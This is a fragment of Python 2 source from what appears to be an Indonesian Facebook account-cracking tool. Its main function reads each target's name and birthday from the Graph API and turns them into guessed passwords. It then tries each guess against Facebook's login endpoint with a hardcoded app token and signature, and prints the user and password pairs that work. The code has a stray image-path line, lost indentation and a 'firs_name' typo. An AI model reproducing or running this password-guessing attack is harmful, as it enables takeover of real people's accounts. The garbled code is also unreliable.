 else:
if peak == '0':
menu_hack()
else:
print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'
pilih_super()
print '\x1b[1;91m[+] \x1b[1;92mTotal ID \x1b[1;91m: \x1b[1;97m' + str(len(id))
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
titik = ['. ', '.. ', '... ']
for o in titik:
print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,
sys.stdout.flush()
time.sleep(1)

print
print 52 * '\x1b[1;97m\xe2\x95\x90'

def main(arg):
user = arg
try:
a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)
b = json.loads(a.text)
pass1 = b['first_name'] + '123'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1
else:
if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1
else:
pass2 = b['firs_name'] + '12345'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2
else:
if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2
else:
pass3 = b['last_name'] + '123'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3
else:
if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3
else:
lahir = b['birthday']
pass4 = lahir.replace('/', '')
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4
else: